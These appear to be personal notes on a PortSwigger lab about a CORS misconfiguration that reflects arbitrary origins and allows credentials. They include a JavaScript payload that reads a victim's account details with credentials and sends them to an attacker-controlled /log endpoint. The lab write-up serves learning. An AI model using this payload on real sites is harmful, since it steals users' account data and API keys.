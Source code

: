 First we check that if we send the parameter Origin, with a random URL. We still receive the response. This give us a clue that the web is vulnerable. 
The response show us the "Access-Control-Allow-Credentials" is true, with this we know that the cross-origin request accept credentials.   

![[Pasted image 20250211212138.png]]
Down is the next page, that basically is the response to the lab. And same script that we had received.

![[Pasted image 20250211213538.png]]
This is the script that portswigger gave us. Basically, you send a request and wait for the response. Which is save in location variable.
![[Pasted image 20250211204613.png]]
![[Pasted image 20250211204553.png]]

```Javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0acc00a003dcd456807e71c900c100fc.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

```